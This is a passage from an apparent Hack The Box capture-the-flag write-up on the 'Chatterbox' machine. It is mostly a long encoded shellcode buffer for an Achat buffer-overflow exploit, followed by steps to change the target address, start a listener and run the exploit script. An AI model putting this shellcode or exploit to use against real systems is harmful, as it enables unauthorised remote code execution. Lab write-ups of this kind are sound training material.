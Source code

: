```text
buf += b"\x6e\x44\x4b\x51\x58\x53\x33\x36\x44\x4b\x4c\x4c"
buf += b"\x70\x4b\x42\x6b\x70\x58\x4b\x6c\x69\x71\x77\x63"
buf += b"\x64\x4b\x79\x74\x32\x6b\x4b\x51\x46\x70\x75\x39"
buf += b"\x61\x34\x4d\x54\x6b\x74\x31\x4b\x51\x4b\x61\x51"
buf += b"\x31\x49\x30\x5a\x52\x31\x39\x6f\x37\x70\x31\x4f"
buf += b"\x4f\x6f\x6f\x6a\x44\x4b\x6a\x72\x6a\x4b\x32\x6d"
buf += b"\x51\x4d\x63\x38\x4f\x43\x30\x32\x79\x70\x6d\x30"
buf += b"\x73\x38\x72\x57\x54\x33\x4e\x52\x61\x4f\x61\x44"
buf += b"\x72\x48\x50\x4c\x44\x37\x6d\x56\x4a\x67\x69\x6f"
buf += b"\x59\x45\x68\x38\x76\x30\x6d\x31\x69\x70\x49\x70"
buf += b"\x6f\x39\x39\x34\x6f\x64\x32\x30\x42\x48\x6b\x79"
buf += b"\x53\x50\x50\x6b\x4d\x30\x6b\x4f\x48\x55\x6e\x70"
buf += b"\x52\x30\x32\x30\x70\x50\x4d\x70\x52\x30\x6f\x50"
buf += b"\x42\x30\x61\x58\x49\x5a\x6c\x4f\x39\x4f\x57\x70"
buf += b"\x79\x6f\x56\x75\x33\x67\x30\x6a\x79\x75\x50\x68"
buf += b"\x39\x7a\x6c\x4a\x7a\x6e\x79\x79\x71\x58\x5a\x62"
buf += b"\x79\x70\x6d\x31\x55\x6b\x74\x49\x57\x76\x52\x4a"
buf += b"\x6a\x70\x42\x36\x52\x37\x61\x58\x63\x69\x54\x65"
buf += b"\x33\x44\x4f\x71\x59\x6f\x5a\x35\x52\x65\x45\x70"
buf += b"\x30\x74\x4c\x4c\x39\x6f\x6e\x6e\x7a\x68\x54\x35"
buf += b"\x4a\x4c\x30\x68\x4c\x30\x74\x75\x73\x72\x71\x46"
buf += b"\x69\x6f\x39\x45\x71\x58\x72\x43\x62\x4d\x4f\x74"
buf += b"\x6d\x30\x64\x49\x69\x53\x6e\x77\x51\x47\x42\x37"
buf += b"\x6d\x61\x49\x66\x72\x4a\x5a\x72\x6e\x79\x62\x36"
buf += b"\x58\x62\x69\x6d\x50\x66\x77\x57\x31\x34\x6b\x74"
buf += b"\x4d\x6c\x49\x71\x7a\x61\x44\x4d\x6f\x54\x6e\x44"
buf += b"\x4c\x50\x38\x46\x79\x70\x6e\x64\x61\x44\x72\x30"
buf += b"\x61\x46\x71\x46\x32\x36\x6e\x66\x50\x56\x4e\x6e"
buf += b"\x42\x36\x72\x36\x6f\x63\x42\x36\x31\x58\x64\x39"
buf += b"\x58\x4c\x4d\x6f\x62\x66\x49\x6f\x6a\x35\x42\x69"
buf += b"\x77\x70\x30\x4e\x71\x46\x71\x36\x39\x6f\x4c\x70"
buf += b"\x71\x58\x49\x78\x32\x67\x6d\x4d\x51\x50\x49\x6f"
buf += b"\x39\x45\x55\x6b\x4c\x30\x44\x75\x44\x62\x51\x46"
buf += b"\x72\x48\x47\x36\x56\x35\x57\x4d\x45\x4d\x79\x6f"
buf += b"\x39\x45\x4f\x4c\x4c\x46\x33\x4c\x4a\x6a\x35\x30"
buf += b"\x6b\x4b\x4b\x30\x33\x45\x6a\x65\x45\x6b\x6f\x57"
buf += b"\x4a\x73\x74\x32\x30\x6f\x32\x4a\x69\x70\x6e\x73"
buf += b"\x59\x6f\x48\x55\x41\x41"
```

Cool, so after copying this shellcode into the exploit and changing the target address:

![ip_change.png](../assets/chatterbox_assets/ip_change.png)

We should be all set to set up a listener and to launch the exploit:

```text
┌──(ryan㉿kali)-[~/HTB/Chatterbox]
└─$ python2 Achat-bof.py
---->{P00F}!
```
